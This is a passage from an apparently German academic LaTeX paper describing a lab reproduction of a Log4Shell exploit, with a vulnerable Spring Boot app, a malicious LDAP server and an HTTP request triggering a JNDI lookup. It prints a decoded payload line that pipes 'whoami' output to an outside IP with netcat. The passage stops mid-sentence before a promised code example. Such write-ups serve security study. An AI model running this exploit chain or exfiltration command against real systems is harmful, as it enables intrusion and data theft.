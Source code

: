 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp} Es beinhaltet eine Java Spring Boot Web Applikation, die noch mit
einer Java Version läuft, die noch anfällig für Log4shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des Schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist eine HTTP-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nurnoch die IP-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\vspace{0.3cm}

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\



